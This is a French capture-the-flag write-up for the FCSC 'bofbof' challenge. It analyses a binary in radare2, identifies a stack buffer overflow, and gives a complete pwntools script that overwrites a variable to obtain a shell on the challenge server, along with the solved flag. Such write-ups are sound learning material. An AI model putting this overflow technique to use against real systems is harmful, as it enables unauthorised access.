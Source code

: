 # BOFBOF

catégorie | points
:-----: | :----:
Intro | 20

## 0x0 Intro

>Votre but est d'obtenir un shell sur la machine pour lire le fichier flag.txt.
>
>nc challenges2.france-cybersecurity-challenge.fr 4002
>
>SHA256(bofbof) = bd78bff2d72fcc6ebc82f248ea14761d66fc476aca13eed22db541f2960f9fce

## 0x0 Explication

Un binaire, un shell à obtenir, vous savez ce que cela veut dire ??? REVERSING TIME !

## 0x1 Reconnaissance

Avant tout, soit on file sur le serveur pour voir comment réagit via la commande donnée dans l'énoncé.
Soit on le rend éxécutable sur notre machine et on le test en local:

```bash
chomd +x bofbof && ./bofbof
```

Celui ci va nous gratifier d'un magnifique :

```bash
Comment est votre blanquette ?
>>> 
```

Si vous êtes sur le serveur, si vous essayez une chaine au hasard, la connexion se ferme instantanément.

Premier réflexe, essayer un buffer overflow, si vous êtes en local, vous aurez ce magnifique message:

```bash
Comment est votre blanquette ?
>>> Almost there!
[1]    27372 segmentation fault (core dumped)  ./bofbof  < /usr/bin/echo
```

Ok, segmentation fault, on peux être sur un buffer overflow avec execution de code comme sur [poney du FCSC 2020](https://blog.caturday-lovers.fr.nf/?p=144) que nous avions résolu.

Pour en être certain, nous allons l'examiner.

## 0x2 Radare time

Même si cela semble compliqué à utiliser, sur ce genre d'exercice, cela reste toujours plus lisible.

On commence par charger l'éxécutable dans Radare2:

![r2 load](./IMG/radare1.png)

Une fois chargé, on l'analyse (cela aurait pu être fait avec l'option -AA au lancement)

![r2 analyse](./IMG/radare2.png)

Une fois analysé, nous alons pouvoir regarder plus en profondeur le code:

![r2 pdf main](./IMG/radare3.png)

Je vous ai mis en avant les points important:

point | explication
:----:| :----:
1 | vérifie si la chaine dans RAX est égale à 0x4141414141414141 (soit AAAAAAAA)
2 | vérifie si la chaine dans RAX est égale à 0x1122334455667788
3 | si RAX n'est pas égale à la chaine présenté en 2 alors on jump
4 | on exécute la partie sym.vuln, interessant, nous l'étudierons
5 | notre message d'erreur, et comme nous pouvons le constaté, si nous sommes égale à AAAAAAAA on ne l'aura pas.

Et quand nous examinons sym.vuln, nous trouvons le code suivant:

![r2 pdf sym.vuln](./IMG/radare4.png)

MAZELTOV, c'est par ici que nous accèderons au shell.

## 0x3 Exploitation

Donc, nous avons compris que nous allons avoir une chaine a entrer dans bofbof,
qui à un certain moment, devra être égale à la valeur de 0x1122334455667788.

Pour ce faire, nous devons connaitre une chose importante, la taille du buffer.

Il est indiqué au début du main, sous la forme:

>132: int main (int argc, char **argv, char **envp);
>
>│           ; var char *s @ rbp-0x30
>
>│           ; var uint32_t var_8h @ rbp-0x8

Que cela nous indique t'il ? deux choses:

 La taille max de la chaine est 0x30 et le buffer en 64 bits est de 0x8.
 Notre chaine devra donc se situer à -10 caractères (les 8 de la valeur désirée -2 pour le linebreak, le \n)

 Il est temps de lancer VIM, et de commencer à coder en python.

## 0X4 Coding

Pour faciliter les choses, et ne pas se prendre la tête sur le big endian et le petit endian,
nous allons utiliser la librairie pwntools

```python
#!/usr/bin/env python
# coding: utf-8

import pwn
import argparse

# pwn.context.log_level = "debug"
shell = "challenges2.france-cybersecurity-challenge.fr"
port = 4002
winArg = 0x1122334455667788
charge = pwn.cyclic(0x20 + 8)
payload = charge + pwn.p64(winArg)
binary = "./bofbof"


def startExploit(isOnline):
    try:
        if isOnline:
            Online()
        else:
            Local()
    except:
        pwn.error("C'était un accident ! UN BANAL ACCIDENT DE TRAPÈZE")
    finally:
        pwn.info("Ah ! C'était donc ça tout ce tintouin.")


def Local():
    pwn.context.binary = binary
    pwn.info("Mais qu'est-ce que c'est que ce guet-apens ?!")
    stdout = pwn.process.PTY
    stdin = pwn.process.PTY
    target = pwn.process([binary], stdout=stdout, stdin=stdin)
    target.sendlineafter(">>>", payload)
    target.interactive()


def Online():
    pwn.info("C'est pas moi ! j'ai vu, je sais qui c'est, mais je ne dirais rien !")
    conn = pwn.remote(shell, port)
    conn.recvline()
    conn.sendlineafter(">>>", payload)
    conn.interactive()


def main():
    parser = argparse.ArgumentParser(
        description="Excuter Hubert en ligne ou local", prog="Exploit.py"
    )
    parser.add_argument(
        "-o",
        "--online",
        dest="isOnline",
        help="Hubert en mode online",
        action="store_true",
        default=False,
    )
    args = parser.parse_args()
    if args.isOnline:
        Online()
    else:
        Local()


if __name__ == "__main__":
    main()
```

On test sur notre cible en locale, et nous accèdons à un shell. On a gagné !
On passe l'exploit en mode online en ajoutant -o au lancement:

![we have a shell and the flag !](./IMG/hubert.png)

le flag était donc:

>FCSC{ec30a448a777b571734d8d9e4036b3a6e87d1005446f80dffb26c3e4f5cd02ba}

## 0X5 TL;DR

Le flag était accessible en entrant une chaine forgée afin que la représentation
de la fin de la chaine en héxadécimale soit égale à 0x1122334455667788

Pour faire cela, le script [exploit.py](./Exploit.py) avec l'aide de pwntools va intéragir avec
le chall afin de nous laisser accéder au shell proposé sur la machine.


